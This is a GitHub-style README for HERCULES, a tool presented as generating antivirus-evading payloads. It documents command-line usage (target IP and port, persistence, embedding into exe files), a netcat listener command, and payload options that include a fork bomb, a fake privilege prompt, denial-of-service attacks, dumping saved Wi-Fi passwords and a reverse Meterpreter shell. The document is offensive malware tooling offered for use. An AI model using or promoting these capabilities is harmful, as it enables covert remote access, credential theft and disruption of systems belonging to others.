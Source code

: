 # HERCULES
HERCULES is a special payload generator that can bypass all antivirus software.

Use it with netcat...

Example : nc -l -p 1234


# USAGE


                  __  ____________  ________  ____    ___________
                 / / / / ____/ __ \/ ____/ / / / /   / ____/ ___/
                / /_/ / __/ / /_/ / /   / / / / /   / __/  \__ \ 
               / __  / /___/ _, _/ /___/ /_/ / /___/ /___ ___/ / 
              /_/ /_/_____/_/ |_|\____/\____/_____/_____//____/  
                                                   


Usage : ./HERCULES (Ip) (Port) (Options)


Options : 

      -p                 Payload to use. ( Windows / Linux )

      -a                 The architecture to use. ( x86, x64 )
      
      -l                 Specify linking type for compiler. ( static, dynamic )

      --persistence      Enable outo persistence option for continious acces.

      --embed="file.exe" Embed the selected payload with selected exe file.




# PAYLOAD OPTIONS

- ~PERSSISTENCE                     Installs a persistence module

- ~DISTRACT                         Executes a fork bomb bat file for distraction   

- ~PLEASE  "Command"                Asks users comfirmation for higher privilidge operations

- ~DOS -A "www.targetsite.com"      Starts a denial of service atack

- ~WIFI-LIST 						            Dumps all wifi history data with passwords

- ~METERPRETER -A "127.0.0.1:8888"  Creates a reverse https meterpreter connection to metasploit

# NOTE !

- Dynamic linking makes payload size smaller !
- Using persistence and keylogger may atract anti virus softwares !

# AV AWARENESS

http://NoDistribute.com/result/ZWHKvaAJcCpnOGbgNq

# NOTE

- Using persistence and keylogger may attract some Anti Virus software... 

